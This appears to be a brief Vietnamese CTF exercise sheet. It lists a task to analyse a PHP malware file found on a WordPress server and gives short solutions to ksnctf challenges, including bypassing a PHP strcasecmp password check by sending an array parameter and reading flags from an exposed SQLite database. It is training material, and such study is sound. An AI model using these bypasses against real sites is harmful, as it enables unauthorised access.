  
# Bài 1
Tóm tắt lại các bước giải mã và phân tích cách thức hoạt động của mã độc `2fa71019.php` được tìm thấy trên một server chạy `Wordpress`.


# Bài 2
http://ksnctf.sweetduet.info/problem/32
 - View source code của trang web :
          if (strcasecmp($_POST['password'], $password) == 0)
          cecho "Congratulations! The flag is $password";
 - Submit query: password[]=1
 - Get Flag:  FLAG_VQcTWEK7zZYzvLhX


# Bài 3
http://ksnctf.sweetduet.info/problem/31


# Bài 4
http://ksnctf.sweetduet.info/problem/35
- View soure, thấy : sqlite:database.db
- sqlite> select * from user , lấy được Flag:
  root|FLAG_iySDmApNegJvwmxN
